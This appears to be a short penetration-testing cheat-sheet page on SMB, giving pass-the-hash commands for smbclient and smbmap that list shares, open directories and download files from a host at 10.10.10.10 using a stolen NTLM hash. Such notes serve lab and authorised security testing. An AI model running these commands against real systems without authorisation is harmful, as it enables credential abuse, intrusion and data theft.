 ```yaml
---
layout: default
title: smb
tags:
    - 139
    - 445
    - block
    - message
    - samba
    - server
    - smbclient
    - smbd
    - smbmap
---
```

# smb

### Pass-the-hash

List directories

`smbclient -U <user>%<hash> --pw-nt-hash -L 10.10.10.10`

`smbmap -u <user> -p '<NTLM hash>:<LM hash>' -H 10.10.10.10` _LM hash is legacy and can usually be anything_

- `--download <path>`: download file
- `-R`: recursively list files

Open specific directory

`smbclient -U <user>%<hash> --pw-nt-hash //10.10.10.10/<directory>`